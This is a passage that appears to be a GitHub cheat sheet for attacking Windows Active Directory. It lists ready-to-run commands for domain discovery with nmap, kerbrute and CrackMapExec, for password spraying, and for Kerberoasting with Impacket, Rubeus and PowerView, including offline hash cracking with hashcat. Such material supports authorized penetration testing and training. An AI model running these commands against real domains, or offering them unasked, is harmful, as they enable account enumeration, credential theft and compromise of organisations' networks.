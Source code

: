 ### **🌐 Network & Service Discovery**

#### **Linux:**
```bash
# Nmap AD Specific
nmap -p88,135,139,389,445,464,593,636,3268,3269,5985,9389 DC_IP
nmap --script smb-protocols,smb-security-mode,smb-enum-shares DC_IP
nmap --script ldap-rootdse,ldap-search DC_IP -p389,636

# Kerbrute
kerbrute userenum -d domain.com users.txt --dc DC_IP
kerbrute passwordspray -d domain.com users.txt 'Password123!' --dc DC_IP

# CrackMapExec Discovery
crackmapexec smb SUBNET/24
crackmapexec ldap DC_IP -u '' -p '' --users
crackmapexec ldap DC_IP -u '' -p '' --groups
crackmapexec winrm SUBNET/24
```

#### **Windows:**
```powershell
# Port Scanning
Test-NetConnection -ComputerName DC_IP -Port 88,135,139,389,445,464,593,636,3268,3269,5985,9389

# Service Discovery
Get-Service -ComputerName DC_IP | Where-Object {$_.Status -eq "Running"}
Get-WmiObject -Class Win32_Service -ComputerName DC_IP | Where-Object {$_.State -eq "Running"}
```

---

## 🔓 **Credential Attacks**

### **1. Kerberoasting**

#### **Linux:**
```bash
# Impacket
GetUserSPNs.py -dc-ip DC_IP domain.com/username:password -request
GetUserSPNs.py -dc-ip DC_IP domain.com/username:password -request -outputfile kerberoast_hashes.txt

# Crack with hashcat
hashcat -m 13100 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt
```

#### **Windows:**
```powershell
# Rubeus
.\Rubeus.exe kerberoast /outfile:hashes.txt
.\Rubeus.exe kerberoast /user:serviceaccount /outfile:hashes.txt

# PowerView
Get-DomainUser -SPN | select samaccountname,serviceprincipalname
Request-SPNTicket -SPN "HTTP/web.domain.com"
```
